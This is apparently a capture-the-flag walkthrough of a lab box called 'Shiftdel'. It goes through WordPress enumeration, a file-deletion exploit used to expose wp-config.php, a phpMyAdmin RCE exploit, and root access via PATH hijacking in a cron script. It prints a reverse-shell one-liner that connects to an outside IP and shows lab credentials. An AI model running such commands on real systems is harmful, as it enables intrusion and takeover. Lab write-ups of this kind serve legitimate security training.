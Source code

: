 # Shiftdel

I start off by scanning for open ports:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Then i go and look at the webserver and see that it's running with wordpress:

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

So i launch a wp-scan and find the wordpress version:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

and after googling we find some interesting stuff:

{% embed url="https://www.exploit-db.com/exploits/50456" %}

{% embed url="https://www.exploit-db.com/exploits/47690" %}

so i'm able to read files and apparently the onboarding page had everything i needed:

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption><p>IntraPersonalVision349</p></figcaption></figure>

So i found a password but no username that i'm sure of so i went and looked at my wpscan cheat sheets and tried to find something to enumerate users&#x20;

```
wpscan --url http://192.168.57.174 --enumerate u
```

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

and i manage to login:

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

so there is not much going on and the account is restrictive so the only way to go must be the version exploit we found earlier ->

While reading the code i'm starting to understand how WTF this box is and why the hell as a pentester should i break the website to get my RCE, maybe this is blackhat training IDK but whatever ->

So i needed to:

```
Usage:
  1. Login to wordpress with privileges of an author
  2. Navigates to Media > Add New > Select Files > Open/Upload
  3. Click Edit > Open Developer Console > Paste this exploit script
  4. Execute the function, eg: unlink_thumb("../../../../wp-config.php")
```

So i start off by uploading a random png to the app and editing it:

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Then i reload and the website is totally screwed:

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

and now i can curl wp-config.php without encoding:

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption><p>wordpress:ThinnerATheWaistline348</p></figcaption></figure>

With this i'm able to login in the php my admin instance:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

I see the version and i can use this exploit:

{% embed url="https://www.exploit-db.com/exploits/50457" %}

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

```
python2 50457.py 192.168.57.174 8888 / wordpress ThinnerATheWaistline348 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.57 1234 >/tmp/f'
```

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Looking thought the linpeas output we spot nothing, maybe some cronjobs that are not default like the wpclean?

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

and looking at the script it's indeed the way to go:

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

the  **`PATH`** environment is vulnerable

* `~/bin` expands to `/var/www/html/wordpress/wp-content/uploads/bin` (where you have write access).
* **This means `rm` is looked up in `~/bin` before `/usr/bin/rm`!**
* If an attacker creates an **executable file named `rm`** inside `~/bin`, it will be executed **instead of the real `/usr/bin/rm`**.

and after waiting for a bit i got my reverse shell:

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

